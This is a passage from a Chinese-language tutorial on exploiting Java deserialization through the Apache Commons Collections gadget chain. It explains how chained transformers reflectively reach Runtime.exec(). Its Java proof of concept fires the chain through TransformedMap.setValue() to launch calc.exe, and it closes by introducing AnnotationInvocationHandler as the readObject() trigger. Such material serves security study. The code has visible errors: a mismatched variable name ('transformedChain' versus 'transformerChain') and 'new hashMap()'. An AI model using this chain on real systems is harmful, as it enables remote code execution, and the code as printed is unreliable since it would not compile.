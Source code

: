 ![](https://cdn.jsdelivr.net/gh/jitwxs/cdn/blog/posts/201803/20180326185035632.png)

在这里，我们可以看到，先用`ConstantTransformer()`获取了`Runtime`类，接着反射调用`getRuntime`函数，再调用getRuntime的`exec()`函数，执行命令"calc.exe"。依次调用关系为： **Runtime --> getRuntime --> exec()**。

因此，我们要提前构造 `ChainedTransformer`链，它会**按照我们设定的顺序依次调用**`Runtime`, `getRuntime`,`exec`函数，进而执行命令。正式开始时，我们先构造一个`TransformeMap`实例，然后想办法修改它其中的数据，使其自动调用`tansform()`方法进行特定的变换。

总结一下：

 1. 构造一个`Map`和一个能够执行代码的`ChainedTransformer`
 2. 生成一个`TransformedMap`实例
 3. 利用MapEntry的setValue()函数对**TransformedMap中的键值进行修改**
 4. 触发我们构造的之前构造的链式Transforme（即ChainedTransformer）**进行自动转换**

我们可以实现这个思路：

```java
public static void main(String[] args) throws Exception {
    //transformers: 一个transformer链，包含各类transformer对象（预设转化逻辑）的转化数组
    Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", 
            new Class[] {String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", 
            new Class[] {Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec", 
            new Class[] {String.class }, new Object[] {"calc.exe"})};

    //首先构造一个Map和一个能够执行代码的ChainedTransformer，以此生成一个TransformedMap
    Transformer transformedChain = new ChainedTransformer(transformers);

    Map innerMap = new hashMap();
    innerMap.put("1", "zhang");

    Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
    //触发Map中的MapEntry产生修改（例如setValue()函数
    Map.Entry onlyElement = (Entry) outerMap.entrySet().iterator().next();
    
    onlyElement.setValue("foobar");
    /*代码运行到setValue()时，就会触发ChainedTransformer中的一系列变换函数：
       首先通过ConstantTransformer获得Runtime类
       进一步通过反射调用getMethod找到invoke函数
       最后再运行命令calc.exe。
    */
}
```

### 3.3 AnnotationInvocationHandler

目前的构造还需要依赖于Map中某一项去调用setValue()，那么怎样才能在调用`readObject()`方法时**直接触发执行**呢？
